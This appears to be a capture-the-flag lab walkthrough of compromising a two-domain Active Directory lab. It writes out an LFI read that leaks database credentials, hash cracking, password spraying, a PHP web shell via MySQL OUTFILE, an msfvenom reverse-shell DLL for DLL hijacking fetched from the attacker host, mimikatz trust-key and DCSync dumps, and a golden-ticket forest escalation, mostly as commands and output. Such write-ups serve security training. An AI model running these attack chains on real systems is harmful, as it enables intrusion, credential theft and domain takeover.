




10.10.193.213 TRUSTEDDC

10.10.193.214 LABDC

    ➜  trusted nmap -sC -sV -Pn 10.10.193.214 -vv
    Discovered open port 80/tcp on 10.10.193.214
    Discovered open port 139/tcp on 10.10.193.214
    Discovered open port 445/tcp on 10.10.193.214
    Discovered open port 53/tcp on 10.10.193.214
    Discovered open port 3306/tcp on 10.10.193.214
    Discovered open port 443/tcp on 10.10.193.214
    Discovered open port 135/tcp on 10.10.193.214
    Discovered open port 3389/tcp on 10.10.193.214
    Discovered open port 88/tcp on 10.10.193.214
    Discovered open port 464/tcp on 10.10.193.214
    Discovered open port 636/tcp on 10.10.193.214
    Discovered open port 389/tcp on 10.10.193.214
    Discovered open port 593/tcp on 10.10.193.214

## Website
there is website at 443 and 80

    ➜  trusted feroxbuster --url [http://10.10.193.214](http://10.10.193.214/)

    https://10.10.193.214/dev/

.png>)

its LFI %100
FUZZing at burp suite

we already know its about xampp so we can check xampp files
php://filter/read=convert.base64-encode/resource=config
lets continue with this

echo -n “base64 encode text” | base64 -d > index.html 

after i checked a bit more i found DB.php while there is alraedy mysql is open

DB.php

    ➜  trusted echo -n "PD9waHAgDQokc2VydmVybmFtZSA9ICJsb2NhbGhvc3QiOw0KJHVzZXJuYW1lID0gInJvb3QiOw0KJHBhc3N3b3JkID0gIlN1cGVyU2VjdXJlTXlTUUxQYXNzdzByZDEzMzcuIjsNCg0KJGNvbm4gPSBteXNxbGlfY29ubmVjdCgkc2VydmVybmFtZSwgJHVzZXJuYW1lLCAkcGFzc3dvcmQpOw0KDQppZiAoISRjb25uKSB7DQogIGRpZSgiQ29ubmVjdGlvbiBmYWlsZWQ6ICIgLiBteXNxbGlfY29ubmVjdF9lcnJvcigpKTsNCn0NCmVjaG8gIkNvbm5lY3RlZCBzdWNjZXNzZnVsbHkiOw0KPz4=" | base64 -d
    <?php 
    $servername = "localhost";
    $username = "root";
    $password = "SuperSecureMySQLPassw0rd1337.";

    $conn = mysqli_connect($servername, $username, $password);

    if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
    }
    echo "Connected successfully";
    ?>#  

### mysql

    ➜  trusted mysql -h 10.10.193.214 -u root -p --ssl=0

    Enter password: 
    Welcome to the MariaDB monitor.  Commands end with ; or \g.
    Your MariaDB connection id is 21
    Server version: 10.4.24-MariaDB mariadb.org binary distribution

    Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

    Support MariaDB developers by giving a star at https://github.com/MariaDB/server
    Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

    MariaDB [(none)]> 

analyze tables

    MariaDB [test]> use news;
    Reading table information for completion of table and column names
    You can turn off this feature to get a quicker startup with -A

    Database changed
    MariaDB [news]> show tables;
    +----------------+
    | Tables_in_news |
    +----------------+
    | users          |
    +----------------+
    1 row in set (0.060 sec)

    MariaDB [news]> select * from users;
    +----+------------+--------------+-----------+----------------------------------+
    | id | first_name | short_handle | last_name | password                         |
    +----+------------+--------------+-----------+----------------------------------+
    |  1 | Robert     | rsmith       | Smith     | 7e7abb54bbef42f0fbfa3007b368def7 |
    |  2 | Eric       | ewalters     | Walters   | d6e81aeb4df9325b502a02f11043e0ad |
    |  3 | Christine  | cpowers      | Powers    | e3d3eb0f46fe5d75eed8d11d54045a60 |
    +----+------------+--------------+-----------+----------------------------------+
    3 rows in set (0.074 sec)

    MariaDB [news]> 

crack hashes

    ➜  trusted cat mysql_users.txt | awk '{print $6}' > users.txt
    ➜  trusted cat mysql_users.txt | awk '{print $10}' > hashes  
    ➜  trusted cat users.txt && cat hashes 
    rsmith
    ewalters
    cpowers

    7e7abb54bbef42f0fbfa3007b368def7
    d6e81aeb4df9325b502a02f11043e0ad
    e3d3eb0f46fe5d75eed8d11d54045a60

hashid and john

    ➜  trusted hashid hashes 
    --File 'hashes'--
    Analyzing '7e7abb54bbef42f0fbfa3007b368def7'
    [+] MD2 
    [+] MD5 
    [+] MD4 
    [+] Double MD5 
    [+] LM 
    [+] RIPEMD-128 
    [+] Haval-128 
    [+] Tiger-128 
    [+] Skein-256(128) 
    [+] Skein-512(128) 
    [+] Lotus Notes/Domino 5 
    [+] Skype 
    [+] Snefru-128 
    [+] NTLM 
    [+] Domain Cached Credentials 
    [+] Domain Cached Credentials 2 
    [+] DNSSEC(NSEC3) 
    [+] RAdmin v2.x 
    Analyzing 'd6e81aeb4df9325b502a02f11043e0ad'
    [+] MD2 
    [+] MD5 
    [+] MD4 
    [+] Double MD5 
    [+] LM 
    [+] RIPEMD-128 
    [+] Haval-128 
    [+] Tiger-128 
    [+] Skein-256(128) 
    [+] Skein-512(128) 
    [+] Lotus Notes/Domino 5 
    [+] Skype 
    [+] Snefru-128 
    [+] NTLM 
    [+] Domain Cached Credentials 
    [+] Domain Cached Credentials 2 
    [+] DNSSEC(NSEC3) 
    [+] RAdmin v2.x 
    Analyzing 'e3d3eb0f46fe5d75eed8d11d54045a60'
    [+] MD2 
    [+] MD5 
    [+] MD4 
    [+] Double MD5 
    [+] LM 
    [+] RIPEMD-128 
    [+] Haval-128 
    [+] Tiger-128 
    [+] Skein-256(128) 
    [+] Skein-512(128) 
    [+] Lotus Notes/Domino 5 
    [+] Skype 
    [+] Snefru-128 
    [+] NTLM 
    [+] Domain Cached Credentials 
    [+] Domain Cached Credentials 2 
    [+] DNSSEC(NSEC3) 
    [+] RAdmin v2.x 
    --End of file 'hashes'--#                                                                              ➜  trusted john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt

    stat: hashes.txt: No such file or directory
    ➜  trusted john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hashes    

    Using default input encoding: UTF-8
    Loaded 3 password hashes with no different salts (Raw-MD5 [MD5 256/256 AVX2 8x3])
    Warning: no OpenMP support for this hash type, consider --fork=6
    Press 'q' or Ctrl-C to abort, almost any other key for status
    IHateEric2       (?)    

### password spray

    ➜  trusted nxc smb LABDC -u users.txt -p 'IHateEric2' --continue-on-success
    SMB         10.10.193.214   445    LABDC            [*] Windows Server 2022 Build 20348 x64 (name:LABDC) (domain:lab.trusted.vl) (signing:True) (SMBv1:False)
    SMB         10.10.193.214   445    LABDC            [+] lab.trusted.vl\rsmith:IHateEric2 
    SMB         10.10.193.214   445    LABDC            [-] lab.trusted.vl\ewalters:IHateEric2 STATUS_LOGON_FAILURE
    SMB         10.10.193.214   445    LABDC            [-] lab.trusted.vl\cpowers:IHateEric2 STATUS_LOGON_FAILURE
    SMB         10.10.193.214   445    LABDC            [-] lab.trusted.vl\:IHateEric2 STATUS_LOGON_FAILURE
    SMB         10.10.193.214   445    LABDC            [-] lab.trusted.vl\:IHateEric2 STATUS_LOGON_FAILURE

## bloodhound

fail

    ➜  bloodhound bloodhound-python -c ALL -u 'rsmith' -p 'IHateEric2' -d lab.trusted.vl -ns 10.10.193.214
    INFO: Found AD domain: lab.trusted.vl
    Traceback (most recent call last):
    File "/usr/bin/bloodhound-python", line 33, in <module>
        sys.exit(load_entry_point('bloodhound==1.7.2', 'console_scripts', 'bloodhound-python')())
                ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
    File "/usr/lib/python3/dist-packages/bloodhound/__init__.py", line 308, in main
        ad.dns_resolve(domain=args.domain, options=args)
    File "/usr/lib/python3/dist-packages/bloodhound/ad/domain.py", line 719, in dns_resolve
        q = self.dnsresolver.query(query.replace('pdc','gc'), 'SRV', tcp=self.dns_tcp)
            ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
    File "/usr/lib/python3/dist-packages/dns/resolver.py", line 1364, in query
        return self.resolve(
            ^^^^^^^^^^^^^
    File "/usr/lib/python3/dist-packages/dns/resolver.py", line 1318, in resolve
        (nameserver, tcp, backoff) = resolution.next_nameserver()
                                    ^^^^^^^^^^^^^^^^^^^^^^^^^^^^
    File "/usr/lib/python3/dist-packages/dns/resolver.py", line 763, in next_nameserver
        raise NoNameservers(request=self.request, errors=self.errors)
    dns.resolver.NoNameservers: All nameservers failed to answer the query _ldap._tcp.gc._msdcs.lab.trusted.vl.domain.name. IN SRV: Server Do53:10.10.193.214@53 answered SERVFAIL

so lets use dnschef

    ➜  bloodhound dnschef --fakeip 10.10.193.214  
    ➜  bloodhound bloodhound-python -u rsmith -d lab.trusted.vl -p 'IHateEric2' -ns 127.0.0.1 --disable-pooling --zip -c all,loggedon --dns-timeout 50 -dc LABDC
    WARNING: Could not find a global catalog server, assuming the primary DC has this role
    If this gives errors, either specify a hostname with -gc or disable gc resolution with --disable-autogc
    INFO: Getting TGT for user
    INFO: Connecting to LDAP server: LABDC
    INFO: Found 1 domains
    INFO: Found 2 domains in the forest
    INFO: Found 1 computers
    INFO: Connecting to LDAP server: LABDC
    ERROR: Could not find a Global Catalog in this domain! Resolving will be unreliable in forests with multiple domains
    ERROR: Could not find a Global Catalog in this domain! Resolving will be unreliable in forests with multiple domains
    INFO: Found 7 users
    ERROR: Could not find a Global Catalog in this domain! Resolving will be unreliable in forests with multiple domains
    ERROR: Could not find a Global Catalog in this domain! Resolving will be unreliable in forests with multiple domains
    ERROR: Could not find a Global Catalog in this domain! Resolving will be unreliable in forests with multiple domains
    INFO: Found 47 groups
    INFO: Found 2 gpos
    INFO: Found 5 ous
    INFO: Found 19 containers
    ERROR: Could not find a Global Catalog in this domain! Resolving will be unreliable in forests with multiple domains
    INFO: Found 1 trusts
    INFO: Starting computer enumeration with 10 workers
    INFO: Querying computer: labdc.lab.trusted.vl
    INFO: User with SID S-1-5-21-2241985869-2159962460-1278545866-1107 is logged in on labdc.lab.trusted.vl
    INFO: Done in 00M 17S
    INFO: Compressing output into 20250115170408_bloodhound.zip

i think there is another way to get reverse shell on mysql ;)

### unintended mysql

    MariaDB [(none)]> SELECT "<?php echo system($_GET['cmd']);?>" INTO OUTFILE 'C:/xampp/htdocs/dev/shell.php';
    Query OK, 1 row affected (0.085 sec)

.png>)

    ➜  trusted nc -nvlp 443 
    listening on [any] 443 ...
    connect to [10.8.2.152] from (UNKNOWN) [10.10.193.214] 60833
    id
    PS C:\xampp\htdocs\dev> whoami
    nt authority\system

grab BH data at windows

    PS C:\ProgramData> $FileContent = [System.IO.File]::ReadAllBytes("C:\ProgramData\20250115231159_BloodHound.zip")
    [Convert]::ToBase64String($FileContent) | Set-Content -Path "C:\ProgramData\encoded.txt"
     echo -n “encoded.txt” | base64 -d > 20250115231159_BloodHound.zip

.png>)

## ForceChangePassword

    (myenv) ➜  bloodyAD bloodyAD --host LABDC -d lab.trusted.vl -u rsmith -p IHateEric2 set password ewalters NewPassword123!
    [+] Password changed successfully!
verified
    ➜  trusted nxc winrm LABDC -u users.txt -p 'NewPassword123!' 
    WINRM       10.10.193.214   5985   LABDC            [*] Windows Server 2022 Build 20348 (name:LABDC) (domain:lab.trusted.vl)
    WINRM       10.10.193.214   5985   LABDC            [-] lab.trusted.vl\rsmith:NewPassword123!
    WINRM       10.10.193.214   5985   LABDC            [+] lab.trusted.vl\ewalters:NewPassword123! (Pwn3d!)

first of all i checked C:\ tab if there is something and yeah there is something diffrent

    *Evil-WinRM* PS C:\Users\ewalters\Documents> cd C:\
    *Evil-WinRM* PS C:\> dir

        Directory: C:\

    Mode                 LastWriteTime         Length Name
    ----                 -------------         ------ ----
    d-----         9/14/2022   7:03 PM                AVTest
    d-----         8/19/2021   6:24 AM                EFI
    d-----          5/8/2021   8:20 AM                PerfLogs
    d-r---         9/19/2022   3:46 PM                Program Files
    d-----         8/10/2022   4:06 AM                Program Files (x86)
    d-r---         9/18/2022   9:07 PM                Users
    d-----         5/27/2023   4:12 PM                Windows
    d-----         9/14/2022   6:07 PM                xampp

    *Evil-WinRM* PS C:\> cd AVTest
    *Evil-WinRM* PS C:\AVTest> dir

        Directory: C:\AVTest

    Mode                 LastWriteTime         Length Name
    ----                 -------------         ------ ----
    -a----         9/14/2022   4:46 PM        4870584 KasperskyRemovalTool.exe
    -a----         9/14/2022   7:05 PM            235 readme.txt
## DLL-Hijacking

    ➜  trusted impacket-smbserver smb . -smb2support
    *Evil-WinRM* PS C:\AVTest> net use \\10.8.2.152\smb
    Local name
    Remote name       \\10.8.2.152\smb
    Resource type     Disk
    Status            Disconnected
    # Opens           0
    # Connections     1
    The command completed successfully.

    *Evil-WinRM* PS C:\AVTest> copy .\KasperskyRemovalTool.exe \\10.8.2.152\smb\KasperskyRemovalTool.exe
its look like we need windows

    ➜  trusted file KasperskyRemovalTool.exe
    KasperskyRemovalTool.exe: PE32 executable (GUI) Intel 80386, for MS Windows, 4 sections

so lets move windows.

https://medium.com/techzap/dll-hijacking-part-1-basics-b6dfb8260cf1 this blog and this video was helped me

https://www.youtube.com/watch?v=xKOwE6KTWic

.png>)

go filter and

.png>)

and we got here DLL file name is KasperskyRemovalToolENU.dll lets create reverse shell with this

    ➜  trusted msfvenom -p windows/shell_reverse_tcp LHOST=10.8.2.152 LPORT=443 -f dll > KasperskyRemovalToolENU.dll
    *Evil-WinRM* PS C:\AVTest> curl http://10.8.2.152/KasperskyRemovalToolENU.dll -o KasperskyRemovalToolENU.dll
    *Evil-WinRM* PS C:\AVTest> dir

        Directory: C:\AVTest

    Mode                 LastWriteTime         Length Name
    ----                 -------------         ------ ----
    -a----         9/14/2022   4:46 PM        4870584 KasperskyRemovalTool.exe
    -a----         1/16/2025   1:45 AM           9216 KasperskyRemovalToolENU.dll
    -a----         9/14/2022   7:05 PM            235 readme.txt

grab shell

    ➜  trusted nc -nvlp 443
    listening on [any] 443 ...
    connect to [10.8.2.152] from (UNKNOWN) [10.10.133.198] 59498
    Microsoft Windows [Version 10.0.20348.887]
    (c) Microsoft Corporation. All rights reserved.

    C:\Windows\system32>whoami 
    whoami 
    lab\cpowers

    C:\Windows\system32>

who we are?

    C:\Windows\system32>net users cpowers
    net users cpowers
    User name                    cpowers
    Full Name                    Christine Powers
    Comment                      
    User's comment               
    Country/region code          000 (System Default)
    Account active               Yes
    Account expires              Never

    Password last set            9/14/2022 6:57:50 PM
    Password expires             Never
    Password changeable          9/15/2022 6:57:50 PM
    Password required            Yes
    User may change password     Yes

    Workstations allowed         All
    Logon script                 
    User profile                 
    Home directory               
    Last logon                   1/16/2025 2:04:01 AM

    Logon hours allowed          All

    Local Group Memberships      
    Global Group memberships     *Domain Users         *Domain Admins        
    The command completed successfully.

we are already administrator so lets use mimikatz directly

    mimikatz # lsadump::trust /patch

    Current domain: LAB.TRUSTED.VL (LAB / S-1-5-21-2241985869-2159962460-1278545866)

    Domain: TRUSTED.VL (TRUSTED / S-1-5-21-3576695518-347000760-3731839591)
    [  In ] LAB.TRUSTED.VL -> TRUSTED.VL
        * 1/16/2025 1:14:13 AM - CLEAR   - be 38 f1 cc c5 cc 85 dc 49 d4 19 cf 51 95 49 82 67 08 f7 b3 ff 6f 01 67 3a a8 89 5f ec 9a f1 9f e1 88 dc 44 fc a7 1a e1 3d de 46 93 2e e1 5c 27 8b ed d4 00 90 62 7b 0f bf 00 d0 06 ee 56 7d 51 4c 75 de 25 33 d2 1e 6b 67 f5 96 c4 ef 03 37 38 64 89 e9 13 e6 09 26 05 21 c6 f3 09 09 26 cb 79 10 e8 7b e8 48 e7 c1 dc 2e b7 83 11 37 3e 92 ee a6 fc c9 b9 36 95 93 06 1d e4 4a 8f 1d 8d c8 4f e0 8b be 53 67 92 0d f0 72 15 57 15 3e 2f 9e 1e 75 8a dd 68 30 a5 b0 6e e3 df ae a6 5c 4b a3 7d f9 2c f8 4b 5a 44 64 02 0e d7 ea 35 2a ff 4c af 51 45 b6 38 da 56 4a f0 70 30 a3 e2 8b 28 9e 9a e4 ff e1 62 ec f2 b0 b2 a2 d3 45 64 c4 92 20 bb 10 ea bd e1 18 56 c0 59 fd 38 ac 9c 28 29 6a e4 78 45 ce 2d 8c e0 82 51 d6 62 49 93 94 6a 7a d2 
            * aes256_hmac       b4fbe4f2024cc288d62a205cac62b668da9a831e587d85e53b8ec96d001206f8
            * aes128_hmac       c311894589031688cb53478e3a91f274
            * rc4_hmac_nt       ea134d5259a89d616c37660a8176b1e8

    [ Out ] TRUSTED.VL -> LAB.TRUSTED.VL
        * 1/16/2025 1:14:14 AM - CLEAR   - b5 ef 36 7e f7 ba b2 bc 8c 29 99 c9 de 35 6b 3b 42 11 57 2f 44 9e f9 cd 42 18 d9 a1 46 87 22 77 06 5e b0 f2 9c 9f 02 52 49 2a d7 53 8c 8d 37 8f fb d0 53 db d3 af 78 64 1c 9e 7b c1 cb fa b9 54 d6 39 c0 df 0d 90 c4 fc c2 36 2c 4b 47 54 47 40 73 92 c6 87 f3 bf 08 9e 7a 4e af 61 66 85 e9 d2 56 41 7a b0 5b f1 c2 8a f8 a1 c7 81 ed 47 39 1a 74 20 3e 37 7b d4 a4 62 3c b5 bb b6 ac d1 17 21 63 07 fe dc d5 45 92 6b 0e 7d 34 45 06 d2 2c 76 bb 70 80 a0 a2 00 72 bd 8c 3d d7 59 3b 6b a6 89 ed b6 1c 49 ce a5 e0 d0 8e e1 14 60 0d 54 56 ad a1 9a 62 c4 d8 c5 48 4e a1 65 4a 4e fc f2 e4 57 3b 6b 2e bd 87 24 2e 8c 2d 9a 98 5c 66 67 8a 87 9a 22 1e 4c da 3d 59 91 7d 29 fd 6f dc e0 00 ed 12 a1 c5 a9 83 4a 58 aa 00 7f f0 17 f1 0b c1 d8 
            * aes256_hmac       8582c6440c657cb885034d6bc6cd75243b0451d2c8575846c60e053d9466a998
            * aes128_hmac       b1ec81691d6d68d6a06d5884ba9b01c2
            * rc4_hmac_nt       e6339cdf8cd40e8deb208968b8e978f3

    [ In-1] LAB.TRUSTED.VL -> TRUSTED.VL
        * 5/27/2023 4:19:25 PM - CLEAR   - ea 31 66 22 35 93 0e ef 05 dd e5 94 f0 70 b5 dd 2c de b4 ec 7a 47 73 ae 20 45 15 00 9c 0c 1a 7e 9a f4 68 c7 22 c9 d2 35 cb 67 bb 8d 56 7e 5b 9f 4e 9c b4 4c 77 a6 b7 41 2e d9 3d e4 87 73 5b ee 44 8b 4f 3f f3 e8 ac 32 21 08 db 79 9a 55 2b a0 6f c2 dd 69 c6 9a b7 4d e1 8a 4c f6 e8 0b 47 a9 cb cf 4d 6f 14 8c 28 44 66 63 85 20 13 3b c8 93 bd 20 38 ff 6c 73 d3 2a 61 a3 10 fc 2f d5 af 29 a8 5b 28 09 0d 1f 17 46 8d 7d 09 fa e8 55 61 2e d7 6b 3a 70 38 11 e0 42 08 4b 5b 2b be 53 2c 62 97 64 42 4e 11 fb 50 ed 2f ef 58 38 be 20 a4 4b f6 cf a7 45 18 73 56 be cd 6c 0a 78 16 f7 51 ae 82 59 95 7a 33 f0 27 a6 6d 08 62 ca 74 5f 82 13 c2 d2 aa 7b 12 96 b8 16 27 2e ee 48 bd e4 21 41 db a2 e2 92 ca f3 5d d6 76 cc b5 66 28 2a 87 92 
            * aes256_hmac       a7880265164670ddfc041c250bdf7d8166bf8ca0c06d86c3ddec12620fdfb800
            * aes128_hmac       9d59311c51bd3eb6cc846cf1af53c80f
            * rc4_hmac_nt       fdb9239325aed982da5f521116ffbcaf

    [Out-1] TRUSTED.VL -> LAB.TRUSTED.VL
        * 1/16/2025 1:14:14 AM - CLEAR   - 7a 6f b9 f0 49 87 53 be 90 63 63 9c d9 8e 15 f5 ce b5 60 98 6d e6 08 0f 7b ab 3a 7b e3 59 48 a4 f4 6e 6f 1a cc 87 f2 19 81 9a 3b e5 f6 b0 59 28 ad 97 e2 fd fb 39 f8 15 98 ca 4e a9 c4 04 60 15 6a ca 97 0e 20 81 77 42 ac c0 c9 0d 4f 49 4d 64 ee 2a 0f ed aa 4c f3 5b fb 51 ef 50 1a 84 5d 15 a8 9c ce a5 37 a7 02 47 ff 67 0d 1a 59 1c f6 c9 11 9f a2 55 7f c0 45 db 29 77 db 54 9e 46 23 ea 60 a3 9d 9c 11 61 44 51 d2 3f 32 cc e3 67 95 1c a5 0a 0f c6 96 3d e2 a3 53 2b 92 41 a2 a2 46 9e 27 65 c4 84 b0 6f 6e 4e 95 70 0e ed a6 a9 8e 1b ac 66 e8 40 61 9f 6e 70 44 6e b1 fc dd a7 72 9d 3e bd ac b7 0e b9 6b 3c a6 b5 a0 d2 9b 74 91 39 02 f8 7c 31 16 09 7c 52 f3 e9 00 3e 0c 88 46 a3 05 c6 5c 2b f9 3c 0c 21 bd b2 04 8b bc 8a b0 74 
            * aes256_hmac       bfc64ba951d28743ef247deb0fa7d69197b9fda301c64ae0765ba9c5c6418183
            * aes128_hmac       0fe86c75c4b6686fcae0bd01d0a1fa2c
            * rc4_hmac_nt       cddbd971c2e3e4ef64b4eb024e4e75c0

so its about golden ticket

    Current domain: LAB.TRUSTED.VL (LAB / S-1-5-21-2241985869-2159962460-1278545866)

    Domain: TRUSTED.VL TRUSTED / S-1-5-21-3576695518-347000760-3731839591

we also get TRUSTED.VL sid so lets do golden ticket.

## golden-ticket
    kerberos::golden /user:Administrator /domain:domain /sid:<lab.trusted.vl SID> /sids:<Entreprise Admins SID> /krbtgt:<hash> /ptt

Trust me its always work

for krbtgt hash we can use

    lsadump::dcsync /domain:lab.trusted.vl /all
    ** SAM ACCOUNT **

    SAM Username         : krbtgt
    User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
    Object Security ID   : S-1-5-21-2241985869-2159962460-1278545866-502
    Object Relative ID   : 502

    Credentials:
    Hash NTLM: c7a03c565c68c6fac5f8913fab576ebd
   
FULL COMMAND

    mimikatz # kerberos::golden /user:Administrator /domain:lab.trusted.vl /sid:S-1-5-21-2241985869-2159962460-1278545866 /sids:S-1-5-21-3576695518-347000760-3731839591-519 /krbtgt:c7a03c565c68c6fac5f8913fab576ebd /ptt
    User      : Administrator
    Domain    : lab.trusted.vl (LAB)
    SID       : S-1-5-21-2241985869-2159962460-1278545866
    User Id   : 500
    Groups Id : *513 512 520 518 519 
    Extra SIDs: S-1-5-21-3576695518-347000760-3731839591-519 ; 
    ServiceKey: c7a03c565c68c6fac5f8913fab576ebd - rc4_hmac_nt      
    Lifetime  : 1/16/2025 2:17:47 AM ; 1/14/2035 2:17:47 AM ; 1/14/2035 2:17:47 AM
    -> Ticket : ** Pass The Ticket **

    * PAC generated
    * PAC signed
    * EncTicketPart generated
    * EncTicketPart encrypted
    * KrbCred generated

    Golden ticket for 'Administrator @ lab.trusted.vl' successfully submitted for current session

verified

    C:\ProgramData>klist
    klist

    Current LogonId is 0:0x2e9717

    Cached Tickets: (1)

    #0>     Client: Administrator @ lab.trusted.vl
            Server: krbtgt/lab.trusted.vl @ lab.trusted.vl
            KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
            Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent 
            Start Time: 1/16/2025 2:17:47 (local)
            End Time:   1/14/2035 2:17:47 (local)
            Renew Time: 1/14/2035 2:17:47 (local)
            Session Key Type: RSADSI RC4-HMAC(NT)
            Cache Flags: 0x1 -> PRIMARY 
            Kdc Called
use winrs

    C:\ProgramData>winrs -r:trusteddc.trusted.vl cmd
    winrs -r:trusteddc.trusted.vl cmd

    Microsoft Windows [Version 10.0.20348.887]
    (c) Microsoft Corporation. All rights reserved.

    C:\Users\Administrator.LAB>whoami

    C:\Users\Administrator.LAB> 
    whoami
    lab\administrator
    hostname
    trusteddc
GRAB ADMINISTRATOR HASH
    .\mimikatz.exe

    .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
    .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
    ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
    ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
    '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
    '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

    mimikatz # 
    mimikatz # privilge::debug
